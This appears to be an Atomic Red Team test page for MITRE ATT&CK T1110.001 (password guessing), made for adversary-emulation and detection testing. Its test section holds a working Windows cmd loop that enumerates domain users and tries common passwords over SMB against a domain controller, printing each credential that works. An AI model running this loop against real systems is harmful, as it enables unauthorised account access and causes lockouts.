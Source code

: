 # T1110.001 - Password Guessing
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/001)

<blockquote>Adversaries with no prior knowledge of legitimate credentials within the system or environment may guess passwords to attempt access to accounts. Without knowledge of the password for an account, an adversary may opt to systematically guess the password using a repetitive or iterative mechanism. An adversary may guess login credentials without prior knowledge of system or environment passwords during an operation by using a list of common passwords. Password guessing may or may not take into account the target's policies on password complexity or use policies that may lock accounts out after a number of failed attempts.

Guessing passwords can be a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

Typically, management services over commonly used ports are used when guessing passwords. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [T1110.001 - Password Guessing](#t1110001---password-guessing)
  - [Description from ATT&CK](#description-from-attck)
  - [Atomic Tests](#atomic-tests)
  - [Atomic Test #1 - Brute Force Credentials of all domain users via SMB](#atomic-test-1---brute-force-credentials-of-all-domain-users-via-smb)
      - [Inputs:](#inputs)
      - [Attack Commands: Run with `command_prompt`!](#attack-commands-run-with-command_prompt)

- [Atomic Test #2 - Brute Force Credentials of single domain user via LDAP against domain controller (NTLM or Kerberos)](#atomic-test-2---brute-force-credentials-of-single-domain-user-via-ldap-against-domain-controller-ntlm-or-kerberos)


<br/>

## Atomic Test #1 - Brute Force Credentials of all domain users via SMB
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | &#92;&#92;COMPANYDC1&#92;IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```






<br/>
